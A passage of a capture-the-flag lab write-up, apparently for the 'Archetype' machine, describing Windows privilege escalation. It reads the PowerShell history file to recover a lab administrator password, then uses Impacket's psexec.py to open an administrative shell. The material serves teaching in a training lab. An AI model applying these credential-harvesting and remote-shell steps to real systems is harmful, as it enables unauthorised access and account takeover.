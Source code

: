 ### &#9702;  Privilege Escalation

As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. We can use the type(link)command to access the PowerShell history file (ConsoleHost_history.txt) to see the administrator’s credentials
``` code   
  type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\Powershell \PSReadline\ConsoleHost_history.txt 
```
From the ConsoleHost_history.txt we can see the administrator password:
``` code
  net.exe use T: \\Archetype\backups /user:**administrator** **MEGACORP_4dm1n!!**  
  exit  
```
Below an image of the tree commands:
<div style="width:100%; background-color:#252b34;"><img width="40%" src="StartingPoint_7.png">a</div>

This also reveals that the backups drive has been mapped using the local
administrator credentials. We can use Impacket's psexec.py to gain a
privileged shell .
``` code 
 python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.27 
```

<br>
Below we can see that we gained Administrative privileges:
<br>
<div style="width:100%; background-color:#252b34;text-align: left;"><img src="StartingPoint_9.png" style="width:40%";></div>
 We can now search for <b>"root.txt"</b>.

<br>
<br>
